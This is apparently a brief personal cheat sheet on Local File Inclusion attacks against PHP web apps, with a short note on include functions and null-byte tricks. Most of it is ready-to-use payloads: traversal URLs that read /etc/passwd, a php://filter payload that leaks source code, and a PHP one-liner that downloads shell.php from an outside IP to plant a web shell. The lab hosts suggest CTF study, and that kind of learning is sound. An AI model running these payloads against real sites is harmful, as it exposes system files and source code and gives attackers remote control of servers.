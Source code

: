 ```yaml
---
title: LFI
description:  Local File Inclusion
---
```


LFI attacks against web applications are often due to a developers' lack of security awareness. With PHP, using functions such as `include`, `require`, `include_once`, and `require_once` often contribute to vulnerable web applications

## NULL BYTES
**%00 or 0x00**

Using null bytes is an injection technique where URL-encoded representation such as %00 or 0x00 in hex with user-supplied data to terminate strings. You could think of it as trying to trick the web app into disregarding whatever comes after the Null Byte.
```html
http://10.10.14.127/lab3.php?file=/../../../../../../etc/passwd%00

http://mafialive.thm/test.php?view=/var/www/html/development_testing///..//..//..//..//etc/passwd

php://filter/convert.base64-encode/resource=

<?php file_put_contents('shell.php', file_get_contents('http://10.6.57.139:8000/shell.php')) ?>
```

## PHP Filter
```html
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
```